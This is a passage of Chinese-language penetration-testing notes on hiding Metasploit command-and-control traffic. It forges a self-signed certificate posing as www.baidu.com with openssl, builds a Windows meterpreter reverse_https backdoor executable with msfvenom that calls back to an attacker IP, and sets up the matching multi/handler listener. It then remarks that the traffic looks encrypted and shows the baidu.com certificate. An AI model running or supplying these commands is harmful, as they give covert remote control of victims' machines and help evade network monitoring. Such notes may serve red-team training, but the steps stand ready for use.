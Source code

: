 发现未修改的证书

#### 已修改https证书

1.攻击机利用 openssl 生成证书

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -subj "/C=UK/ST=xiaodi/L=xiaodi/O=Development/CN=www.baidu.com" -keyout www.baidu.com.key -out www.baidu.com.crt && cat www.baidu.com.key www.baidu.com.crt > www.baidu.com.pem && rm -f www.baidu.com.key www.baidu.com.crt
```

2. MSF 生成绑定证书后门

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.10.8 LPORT=5577 PayloadUUIDTracking=true PayloadUUIDName=Whoamishell HandlerSSLCert=/root/www.baidu.com.pem StagerVerifySSLCert=true -f exe -o https-b.exe
```

3. MSF 监听上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 5577
set HandlerSSLCert /root/www.baidu.com.pem
set StagerVerifySSLCert true
run
```

上线后发现证书变成了 baidu.com，此外，wireshark 抓包时发现也是**加密的数据**

<img src=".\图片\Snipaste_2023-01-06_11-54-02.png" alt="Snipaste_2023-01-06_11-54-02" style="zoom:60%;" />
